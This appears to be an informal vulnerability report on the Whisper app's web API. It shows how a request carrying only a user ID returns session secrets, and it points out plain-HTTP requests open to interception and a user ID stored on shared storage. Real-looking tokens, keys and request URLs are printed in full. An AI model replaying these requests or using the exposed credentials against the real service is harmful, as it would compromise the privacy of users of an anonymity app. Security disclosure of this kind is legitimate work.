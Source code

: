 <h1>Whisper.sh</h1>
<hr>
<h3>Vulnerabilty report</h3><h5>Shhhh :)</h5>


`whisper.sh (52.35.240.11)`

I navigated to the root folder of whisper and found out this line: 

`https://prod.whisper.sh/messaging/conversations/tt_auth?uid=054bb65e915bc0e0d914c78601a47f1a47f418&nonce=4K04VM54DCIQ6BTIMLCR80JU8G&auth_token=da95c077b910506066d9b228cf9a44adc8558091&locale=it_it`

To initialize a new session on whisper we need to : 

`https://prod.whisper.sh/user/new`

the website replies with : 


```
{
  "token":"50d38783f8757693a3ab6dc87da7ea47",
  "expected":6
}
```

This token is used to initialize a new user session

As you can notice the app is passing some tokens and other stuff to the web server... 

I was curious... :D So I tried to make a request without passing anything but the uid! 

`https://prod.whisper.sh/messaging/conversations/tt_auth?uid=054bb65e915bc0e0d914c78601a47f1a47f418`

Guess what! :D 

```
{
      "tt_token":"e57b919a-179c-44fc-9192-5bae0116fe3d",
      "tt_key":"scOoe4cjJCCOJyOsDoizyx3qXEbBS6M6",
      "tt_secret":"JouBYOcZs1cfS9sD4T8ewCJ4cmFX3twiWERLT2JmdfvlEdgk"
}
```
But that's not enough? 

Whisper uses mixpanel and guess what? 
They allow HTTP request: 

`http://decide.mixpanel.com/decide?version=1&lib=android&token=c39eea2c9ad72a79d1688ca82c50cb94&distinct_id=050f036278f1ae965166`

;) 


<h1>Steal User data</h1>

`http://prod.whisper.sh/whisper/shortened/050f8caaca77a378697952b178afb1946582f6?uid=050f8c29de55a0828128c911a15637acba77`

You'd expect this app to have a strict HTTPS online policy... Nope ;) 

HTTPS only if its ok, if not... HTTP! :) 

You'd expect this website to create shorten url without needing to embed a user id right? And you'r wrong ;) 

Then you get your shorten URL: 

```
{
    "short_url":"http://whisper.sh/w/wumfb87"
}
```


Obivously is possible to run a man in the middle attack and steal data ;) 

<hr>

<h1>Coincidences ?</h1>

I unistalled the Whisper app... But changed my mind! 

AND VOILA! 
My username was still there... Why? 
And how? 

I unistalled the app again and blocked the whisper IP on my router. 
Still working... 

The solution? 

It is storing the UID on the extSdCard. 

So basically every app can access to that memory and steal the uid too. 

*Great! :D*






